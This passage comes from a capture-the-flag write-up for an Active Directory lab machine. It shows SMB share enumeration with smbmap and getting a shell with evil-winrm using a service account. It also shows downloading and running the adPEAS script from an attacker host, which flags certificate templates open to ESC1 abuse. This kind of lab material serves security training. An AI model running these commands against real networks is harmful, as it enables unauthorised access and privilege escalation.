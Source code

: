 
Running smbmap with the new credentials reveals svc_ldap can read the "Department Shares" share:

```
smbmap -H 10.10.11.222 -u "svc_ldap" -p '<password_here>'
```

<img src="assets/images/Authority/smb2.png"/>

But... after downloading the share... it doesn't look like anything is there really. A bunch of empty folders.

However...

```
evil-winrm -i 10.10.11.222 -u "svc_ldap" -p '<password_here>'
```

Gets us a shell!

<img src="assets/images/Authority/foothold.png"/>

Very nice.


# Privilege Escalation

Once on the box, download and run adPEAS to help look for potential privesc vectors:

```
wget http://10.10.14.13/adPEAS.ps1 -Outfile ./adPEAS.ps1
Import-Module ./adPEAS.ps1
Invoke-adPEAS
```

adPEAS reveals:

<img src="assets/images/Authority/adpeas1.png"/>

Okay, svc_ldap may be able to add a computer to the domain. Honestly, I'm not entirely sure what to do with this at the moment, but this is certainly noted and if something requires me to add a computer to a domain, we apparently have the ability.


Also reveals:

<img src="assets/images/Authority/adpeas2.png"/>

<img src="assets/images/Authority/adpeas3.png"/>

<img src="assets/images/Authority/adpeas4.png"/>

3 certs with the "Enrollee_supplies_subject" flag. I... dont know what this is. Luckily I am connected to the internet and can access google.

A quick google for "Enrollee_supplies_subject" yields a few articles on the matter:

https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/ says:
